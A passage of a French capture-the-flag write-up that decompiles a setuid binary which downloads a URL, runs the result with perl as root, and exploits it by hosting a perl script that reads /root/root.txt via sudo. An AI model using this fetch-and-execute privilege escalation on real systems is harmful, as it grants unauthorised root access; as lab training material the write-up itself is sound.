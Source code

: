 L'exploitation de ce fichier nous permettrait d'obtenir les privilèges root.

### Analyse du fonctionnement du fichier
On récupère le fichier sur notre machine et on le décompile avec ghydra

Son comportement est relativement simple :
- il recoit 2 paramètres : une URL et un nom de fichier
- le nom de fichier doit être "lDnxUysaQn"
- il enregistre le contenu de l'URL dans le nom de fichier 
- enfin il exécute ce fichier avec perl

Voici le code décompilé et annoté que nous obtenons :
```c
[...]
  isGoodName = strcmp(*(char **)(argv + 0x10),"lDnxUysaQn");
  if (isGoodName != 0) {   // "si le paramètre le vaut pas 'lDnxUysaQn' on quitte"
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Running... ");
  puts("Running... ");
  fStream = fopen(*(char **)(argv + 0x10),"wb"); // on ouvre le fichier lDnxUysaQn en écriture
  curlHandle = curl_easy_init();
  curl_easy_setopt(curlHandle,0x2712,*(undefined8 *)(argv + 8)); // on paramètre l'URL de connexion
  curl_easy_setopt(curlHandle,0x2711,fStream); // on indique qu'on va écrire dans ce fichier 
  curl_easy_setopt(curlHandle,0x2d,1);          // ?
  isGoodName = curl_easy_perform(curlHandle);  // téléchargement
  if (isGoodName == 0) {
    isGoodName = snprintf((char *)0x0, 0, "%s", *(undefined8 *)(argv + 0x10));
    datadatadata = (char *)malloc((long)isGoodName + 1);
	snprintf(datadatadata, (long)isGoodName + 1, "%s", *(undefined8 *)(argv + 0x10));
    isGoodName = snprintf((char *)0x0, 0, "perl ./%s", datadatadata); // on détermine la longueur de la chaine perl + nom du fichier
    __s = (char *)malloc((long)isGoodName + 1); // on alloue un espace mémoire de cette taille
    snprintf(__s,(long)isGoodName + 1,"perl ./%s",datadatadata); // on prépare la commande 
    fclose(fStream);
    curl_easy_cleanup(curlHandle);
    setuid(0);
    system(__s); // execution de la commande
    system("rm -f ./lDnxUysaQn");
    return 0;
[...]
```

### Exploitation
On va donc :
- créer un fichier perl affichant le flag de l'utilisateur root.
- héberger ce fichier sur un serveur web local
- exécuter `sudo binary <URL VERS NOTRE SCRIPT PERL> lDnxUysaQn`

On crée un fichier perl qui affiche le flag :
```
use strict;
use warnings;

my $output = `cat /root/root.txt`;
print $output;
```
